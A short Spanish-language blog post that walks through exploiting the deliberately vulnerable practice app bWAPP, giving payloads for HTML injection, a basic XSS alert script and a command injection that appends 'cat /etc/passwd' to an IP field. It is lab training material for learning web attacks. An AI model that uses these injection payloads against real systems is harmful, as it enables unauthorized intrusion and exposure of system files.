 ```yaml
---
typora-copy-images-to: ../assets/img/
typora-root-url: ../
layout: post
title:  "Web vulnerable(bWAPP)"
categories: jekyll update
---
```


Con la página web vulnerable de bWAPP hay muchas formas de aprovecharlas, algunas de ellas son las siguientes:

## Html Injection

`<h1>Hi</h1>`

![html_injection](/ionut/Imágenes/html_injection.png)



<br>

## XSS

`<script>alert(1)</script>`

![xss_](/ionut/Imágenes/xss_.png)

<br>



## Command injection

`172.0.0.1; cat /etc/passwd;`

![command_injection](/ionut/Imágenes/command_injection.png)

